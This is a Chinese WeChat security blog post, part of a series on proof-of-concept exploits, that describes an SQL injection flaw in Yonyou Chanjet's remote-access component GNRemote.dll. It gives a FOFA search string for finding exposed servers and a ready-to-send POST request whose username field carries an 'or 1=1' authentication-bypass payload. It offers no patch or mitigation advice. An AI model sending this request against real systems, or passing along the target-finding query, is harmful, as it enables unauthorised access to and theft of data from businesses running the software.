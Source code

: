 #  知识分享7：用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

[ 安全攻防渗透 ](javascript:void\(0\);)

**安全攻防渗透** ![]()

微信号 co01fire

功能介绍 信息安全领域原创公号，专注信安领域人才培养和知识分享，致力于帮助叁年以下信安从业者的学习和成长。

____

___发表于_

收录于合集

#用友 17 个

#网络安全 41 个

#漏洞分析 23 个

![](https://gitee.com/fuli009/images/raw/master/public/20230714174917.png)

点击上方“安全攻防渗透”关注我~

Tips **：用友Web应用漏洞_4** **\- 漏洞描述  -**用友 畅捷通远程通 GNRemote.dll
SQL注入漏洞，攻击者通过SQL注入从而获取服务器上的敏感信息，甚至可以通过注入恶意代码来控制设备。

 **-  影响范围 -**

用友 畅捷通远程通

 ** **\- FOFA  -****  

body="远程通CHANJET_Remote" **\- 漏洞复现 -**

![](https://gitee.com/fuli009/images/raw/master/public/20230714174918.png)

 **POC**

  *   *   * 

    
    
     POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl  
    username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1

‍

 **抓包请求  
**

![](https://gitee.com/fuli009/images/raw/master/public/20230714174919.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230714174920.png)

  

 ****end  
 **这就是【知识分享】 **文章系列** 第【7】篇：《用友 畅捷通远程通 GNRemote.dll
SQL注入漏洞》，如果你觉得本篇写得不错，或者这个系列值得关注，可以表达你的意见！**

 ** **-延伸阅读**** ** **-****

[知识分享：（Hvv行动专题）安全漏洞PoC专题预告](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=1&sn=0155ab58b4edf3e5c6224501ce5d327b&chksm=c07fe314f7086a0248513e789f3592916f5e5927f53b45c14105b41d93e610f63d8e5812a3eb&scene=21#wechat_redirect)  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483809&idx=1&sn=30b54e26a575c3057a87eec52d2774a4&chksm=c07fe0a3f70869b58be927c364f82cf70ab16c877c8a2aefdf22ff82184c6974e1168bfcad1c&scene=21#wechat_redirect)

[知识分享1：[CVE-2018-18778]ACME Mini_httpd
任意文件读取漏洞（Web服务器漏洞）](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=2&sn=20616e5e03e5ddae7da29f39bdfca57f&chksm=c07fe314f7086a025cc29e513a2bd09282e97f6cc1adf5446fc21998e41935865202c73fffa6&scene=21#wechat_redirect)  

[知识分享2：攻击姿势大全](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483926&idx=4&sn=dab8afa931923f718fb5d88fecd23d30&chksm=c07fe314f7086a0271352e9f5da59569202646bd6c480f73aa91c179eac2a7fa306e8658f838&scene=21#wechat_redirect)

  
[](http://mp.weixin.qq.com/s?__biz=Mzg5NjU5NjA3Nw==&mid=2247483809&idx=1&sn=30b54e26a575c3057a87eec52d2774a4&chksm=c07fe0a3f70869b58be927c364f82cf70ab16c877c8a2aefdf22ff82184c6974e1168bfcad1c&scene=21#wechat_redirect)

  

 ** ** ** **-聆听你的声音**** ** **-********

 ** **         如果你有独到的想法和建议，欢迎私信与我一同分享！****

  

 ** ******

![](https://gitee.com/fuli009/images/raw/master/public/20230714174921.png)

  

  

  

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

